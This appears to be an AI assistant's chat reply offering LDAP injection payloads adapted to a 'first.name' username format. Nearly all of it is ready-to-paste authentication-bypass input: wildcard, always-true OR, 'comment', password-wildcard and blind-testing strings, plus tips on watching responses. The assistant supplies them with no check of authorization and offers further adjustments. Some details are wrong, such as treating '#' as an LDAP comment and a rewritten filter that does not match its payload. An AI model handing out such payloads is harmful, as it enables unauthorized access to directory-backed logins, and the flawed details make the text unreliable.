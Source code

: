 If your username format is `first.name`, you’ll need to adapt the LDAP injection payloads accordingly to ensure they fit the expected input format. Here are customized payloads and testing strategies:

---

### **Payloads for Testing `first.name` Format**

#### 1. **Wildcard Injection**
Inject a payload that tries to match any user in the directory:
- **Username**:  
  ```
  first.name*)(uid=*)
  ```
  This closes the `first.name` check and injects a query to match all users.

#### 2. **Always-True Logic Injection**
Test for logical OR conditions:
- **Username**:  
  ```
  first.name*)(|(uid=*)) // Bypass with logical OR
  ```

- **Password**:  
  ```
  *
  ```

---

#### 3. **Comment Injection**
Try injecting LDAP comments to bypass query processing:
- **Username**:  
  ```
  first.name*)(|(uid=*))# // Comments out the rest of the query
  ```

---

#### 4. **Password Wildcard Bypass**
Sometimes, just using a wildcard in the password field can bypass checks if the system doesn't verify the password correctly:
- **Username**:  
  ```
  first.name
  ```

- **Password**:  
  ```
  *
  ```

---

#### 5. **Closing and Injecting Additional Conditions**
If the query resembles something like this:  
```ldap
(&(uid=first.name)(userPassword=somepassword))
```
You can inject to modify the query structure:
- **Username**:  
  ```
  first.name)(&(uid=*)
  ```

- **Password**:  
  ```
  *
  ```

This payload modifies the query to:  
```ldap
(&(uid=first.name)(&(uid=*)(userPassword=*)))
```
...which could lead to a bypass.

---

#### 6. **Error-Based or Blind Testing**
If the system does not show clear results, try injecting for error responses or timing differences:
- **Username**:  
  ```
  first.name)(|(uid=*))(|(sn=*
  ```

- **Password**:  
  ```
  *
  ```

---

### **Testing Recommendations**
1. **Log Analysis**: If possible, review server logs for how inputs are processed.
2. **Output Monitoring**: Look for differences in behavior—like success messages, error codes, or response timing—when injecting payloads.
3. **Escaping Edge Cases**: Test if certain characters like `.` in `first.name` are escaped improperly, as this might cause unexpected behavior.

---

Let me know how the testing goes or if you need further adjustments! 😊
